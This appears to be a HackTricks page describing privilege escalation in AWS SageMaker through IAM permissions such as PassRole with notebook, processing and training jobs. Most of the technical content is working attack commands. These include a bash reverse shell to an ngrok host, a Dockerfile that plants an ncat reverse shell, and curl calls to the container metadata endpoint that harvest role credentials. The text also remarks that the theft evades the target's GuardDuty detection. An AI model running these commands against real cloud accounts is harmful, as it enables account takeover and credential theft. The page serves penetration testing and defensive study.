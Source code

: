 # AWS - Sagemaker Privesc

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>

## sagemaker

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

The first step in this attack process is to **identify a role that trusts SageMaker to assume it** (sagemaker.amazonaws.com). Once that’s done, we can run the following command to create a new notebook with that role attached:

```
aws sagemaker create-notebook-instance --notebook-instance-name example \
    --instance-type ml.t2.medium \
    --role-arn arn:aws:iam::ACCOUNT-ID:role/service-role/AmazonSageMaker-ExecutionRole-xxxxxx
```

If successful, you will receive the **ARN of the new notebook instance** in the response from AWS. That will take **a few minutes** to spin up, but once it has done so, we can run the following command to get a pre-signed URL to get **access to the notebook instance through our web browser**. There are potentially other ways to gain access, but this is a single permission and single API call, so it seemed simple.

```bash
aws sagemaker create-presigned-notebook-instance-url \
    --notebook-instance-name example
```

If this instance was fully spun up, this API call will return a **signed URL that we can visit** in our browser to access the instance. Once at the Jupyter page in my browser, I’ll click "Open JupyterLab" in the top right, which can be seen in the following screenshot.

![](<../../../.gitbook/assets/image (15) (1).png>)

From the next page, scroll all the way down in the “Launcher” tab. Under the “Other” section, click the “Terminal” button, which can be seen here.

![](<../../../.gitbook/assets/image (27).png>)

From the terminal we have a few options, one of which would be to just **use the AWS CLI**. The other option would be to **contact the EC2 metadata** service for the IAM role’s credentials directly and exfiltrate them.

GuardDuty might come to mind when reading “exfiltrate them” above, however, we don’t actually need to worry about GuardDuty here. The related GuardDuty finding is [“UnauthorizedAccess:IAMUser/InstanceCredentialExfiltration”](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty\_unauthorized.html#unauthorized11), which will alert if a role’s credentials are stolen from an EC2 instance and used elsewhere. Luckily for us, this EC2 instance doesn’t actually live in our account, but instead it is a **managed EC2 instance hosted in an AWS-owned account**. That means that **we can exfiltrate these credentials and not worry about triggering** our target’s GuardDuty detectors.

**Potential Impact:** Privesc to the sagemaker service role specified.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

Similar to the previous example, if Jupyter **notebooks are already running** on it and you can list them with sagemaker:ListNotebookInstances (or discover them in any other way). You can **generate a URL for them, access them, and steal the credentials as indicated in the previous technique**.

```
aws sagemaker create-presigned-notebook-instance-url \
    --notebook-instance-name example
```

**Potential Impact:** Privesc to the sagemaker service role attached.

### `sagemaker:CreateProcessingJob,iam:PassRole`

An attacker with those permissions can make **sagemaker execute a processingjob** with a sagemaker role attached to it. The attacked can indicate the definition of the container that will be run in an **AWS managed ECS account instance**, and **steal the credentials of the IAM role attached**.

```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
    --processing-job-name privescjob \
    --processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
    --app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
    --role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```

**Potential Impact:** Privesc to the sagemaker service role specified.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

An attacker with those permissions will be able to create a training job, **running an arbitrary container** on it with a **role attached** to it. Therefore, the attcke will be able to steal the credentials of the role.

{% hint style="warning" %}
This scenario is more difficult to exploit than the previous one because you need to generate a Docker image that will send the rev shell or creds directly to the attacker (you cannot indicate a starting command in the configuration of the training job).

```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}

```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
    --training-job-name privescjob \
    --resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
    --algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
    --role-arn <role-arn> \
    --output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
    --stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```

**Potential Impact:** Privesc to the sagemaker service role specified.

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

An attacker with those permissions will (potentially) be able to create an **hyperparameter training job**, **running an arbitrary container** on it with a **role attached** to it.\
_I haven't exploited because of the lack of time, but looks similar to the previous exploits, feel free to send a PR with the exploitation details._

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>
